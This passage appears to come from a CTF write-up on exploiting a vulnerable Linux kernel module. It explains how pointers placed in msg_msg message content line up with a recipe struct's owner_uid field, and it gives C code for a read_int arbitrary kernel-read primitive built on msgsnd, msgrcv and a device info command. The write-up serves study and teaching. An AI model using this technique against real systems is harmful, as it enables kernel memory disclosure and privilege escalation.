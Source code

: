```c
typedef struct recipe {
    char *buf;                    // <struct_location>+0x0
    unsigned long bufsize;        // <struct_location>+0x8
    unsigned int public;        // <struct_location>+0x10
    uid_t owner_uid;            // <struct_location>+0x14
} recipe_t;
```

Starting from the 7th, the pointers in the `manager.recipes_list` array can be arbitrarily chosen through the message content of the `msg_msg` structure. Setting one of the pointers of the list to point to `<desired_location>-0x14` will make the desired location align with the `owner_uid` field and the module will send back the integer found at that location when reading that field.

<p align="center">
    <img src="images/read_alignments.png" width="65%">
</p>

Given this, the function `read_int` can be created modifying the code snippet above, inserting the desired address in the first 8 bytes of the message content and then executing the `CMD_INFO` on the recipe n. 6 (the first slot dedicated to the message content). After reading the obtained number, it's necessary to free the memory area to make it again available for subsequent reads. This is achieved by calling the function `msgrcv` that retrieves the last posted message and frees the allocated `msg_msg` structure:

```c
#define MSG_SIZE 2040 - 48
#define UID_OFF 0x14

unsigned int read_int(unsigned long where) {

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x14
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - UID_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Read
    dev_info(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return request.info.owner_uid;
```